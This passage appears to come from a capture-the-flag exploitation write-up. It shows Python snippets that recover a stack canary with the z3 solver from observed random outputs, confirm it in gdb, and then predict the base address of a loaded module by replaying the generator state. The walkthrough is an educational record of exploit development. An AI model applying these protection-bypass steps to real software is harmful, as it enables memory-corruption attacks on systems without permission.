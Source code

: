 And we will use z3 as the reference source above does to recover the canary for us:

```python
s = Solver()
rand_state = BitVec('x', 64)

for known_state in known_states:
	s.add(rand(0xc) == known_state)
if s.check() == sat:
	model = s.model()
	canary = model[BitVec('x', 64)].as_long()
log.info("Canary: " + hex(canary))
```

After that, let's try to run the script and attach with gdb to check if our canary is correct or not. This is the canary from gdb:

![canary-gdb.png](images/canary-gdb.png)

And this is the recovered canary:

![recovered-canary.png](images/recovered-canary.png)

Those canary are equal! Let's move on!

### Stage 2: Get address of debug.o

To get the address of `debug.o`, we just simply set the `rand_state` to the value of canary and then `rand(12)` to get the base address of `debug.o`

```python
rand_state = canary
for i in range(6):
	rand(0xc)
debug_o = rand(0xc) << 28
log.info("debug_o: " + hex(debug_o))
```
